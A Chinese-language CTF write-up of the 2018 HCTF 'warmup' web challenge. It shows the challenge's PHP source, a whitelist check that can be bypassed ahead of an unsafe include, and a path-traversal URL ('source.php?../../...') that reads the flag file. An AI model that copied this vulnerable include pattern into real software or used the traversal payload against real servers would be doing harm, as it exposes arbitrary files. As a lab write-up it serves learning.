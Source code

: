```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: 2018-HCTF-Web-warmup-Writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2022-01-29
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup
  - CTF

comment: false
typora-root-url: ..\..\..\..\.vuepress\public
---
```




题目页面：

![image-20220422161916073](/assets/img/image-20220422161916073.png)

F12查看源码：

![image-20220422161923870](/assets/img/image-20220422161923870.png)

发现source.php,访问显示源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

从代码中看到白名单中有hint.php，访问

![image-20220422161931439](/assets/img/image-20220422161931439.png)

可以看到flag在`ffffllllaaaagggg`中，审计`source.php`中的代码

```url
http://challenge-3876b46364f9e4f6.sandbox.ctfhub.com:10800/source.php?file=source.php?../../../../../../../ffffllllaaaagggg
```

绕过过滤，`file`参数后跟白名单中文件，在去访问`ffffllllaaaagggg`，尝试增加../直到flag内容显示